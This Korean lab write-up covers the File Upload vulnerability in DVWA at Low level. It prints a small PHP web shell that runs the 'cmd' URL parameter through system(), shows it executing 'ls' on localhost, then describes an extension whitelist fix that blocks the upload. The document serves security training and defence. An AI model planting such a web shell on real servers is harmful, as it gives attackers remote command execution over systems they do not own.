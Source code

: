 # DVWA 실습 - File Upload

## 실습 목적
DVWA의 Low 레벨 환경에서 File Upload 취약점을 확인하고, 공격자가 악성 파일을 업로드하여 서버에서 임의 명령어를 실행할 수 있는 상황을 재현한다.

## 공격 시도
아래는 공격자가 업로드한 간단한 PHP코드 예시이다 :

<?php
  if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
  }
?> 

cmd 파라미터로 전달된 명령어를 서버에서 실행되도록 짠 코드이고,

위 코드는 실제로 `../modified-code/File Upload_Attack.php`에 있음

아래 사진과 같이 파일을 DVWA File Upload 페이지에서 업로드를 시도한다.
![FU 공격](../screenshots/FU_Attack.png)

업로드 성공후, URL을 통해 cmd에 특정 명령어를 실행을 시도한다.

이번 실습에서 `http://127.0.0.1/dvwa/hackable/uploads/FU_attack.php?cmd=ls` 이렇게 ls 명령어를 실행해보겠다.

## 결과
![FU 공격 성공](../screenshots/FU_Attack2.png)

위 사진처럼 ls 명령어 실행 결과가 브라우저에 출력되어, 이는 공격자가 서버로 원하는 명령어를 실행 가능하다는 것을 확인했다.

## 노트
File Upload 취약점은 서버가 사용자로부터 업로드된 파일을 검증없이 처리할 때 발생한다.

공격자는 .php 확장자를 가진 웹쉘을 업로드하여 서버측에 피해를 입힐 수 있다.

## 대응 코드 예시
수정된 PHP 코드 예시는 `../modified-code/File Upload_Protected.php`에 있음

허용된 확장자 (jpg,jpeg,png)로만 업로드 가능하게 제한을 했다.

## 대응 결과
![FU 차단 결과 화면](../screenshots/FU_Blocked.png)

위 사진과 같이 공격자가 PHP 웹셸 파일을 업로드 시도했지만, 이를 확장자 검사로 업로드를 차단했다.
